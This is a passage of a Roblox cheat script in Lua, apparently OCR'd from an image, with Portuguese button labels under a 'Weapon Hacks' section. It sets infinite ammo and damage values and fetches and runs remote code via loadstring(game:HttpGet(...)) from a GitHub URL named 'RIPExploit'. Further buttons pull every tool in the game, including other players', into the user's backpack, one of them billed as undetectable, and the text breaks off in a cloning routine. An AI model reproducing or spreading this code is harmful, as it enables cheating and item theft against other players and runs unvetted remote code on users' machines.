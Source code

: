         mouse.Icon = "rbxassetid://5992580992"
  	end    
})
local Section = ArmaTab:AddSection({
	Name = "Weapon Hacks"
    })
    ArmaTab:AddButton({
        Name = "Inf Ammo",
        Callback = function()
            _G.Damage = 1003
_G.FireRate = 0
_G.Clips = 999999
_G.AmmoInClip = 999999
_G.Auto = true
 
 
--\\ Load string By Pedroxz

loadstring(game:HttpGet("https://raw.githubusercontent.com/RIPExploit/23452tr2t423t3t34tg34gg/master/ryewifwfripexloit.lua", true))()
        end    
})
ArmaTab:AddButton({
    Name = "Puxar armas",
    Callback = function()
        for i, v in pairs(game:GetDescendants()) do
            if v:IsA('Tool') then
                v.Parent = game:GetService('Players').LocalPlayer.Backpack
            end
        end
        
        game:GetService('Players').LocalPlayer.Character.Humanoid.Died:Connect(function()
            for i, v in pairs(game:GetService('Players').LocalPlayer.Backpack:GetDescendants()) do
                if v:IsA('Tool') then
                    v.Parent = game:GetService('Teams')
                end
            end
            for i, v in pairs(game:GetService('Players').LocalPlayer.Character:GetDescendants()) do
                if v:IsA('Tool') then
                    v.Parent = game:GetService('Teams')
                end
            end
        end)
      end    
})
ArmaTab:AddButton({
	Name = "Puxar Armas 1 Indetectável",
	Callback = function()
        for i,v in game.Players:GetDescendants() do
            if v:IsA("Tool") then
            v.Parent = game.Players.LocalPlayer.Backpack
            end
            end
  	end    
})
ArmaTab:AddButton({
    Name = "Puxar e clonar itens",
    Callback = function()
        local function ClonarTool(tool, player)
            local backpack = player:WaitForChild("Backpack")
            local clonedTool = tool:Clone()
            clonedTool.Parent = backpack
        end
        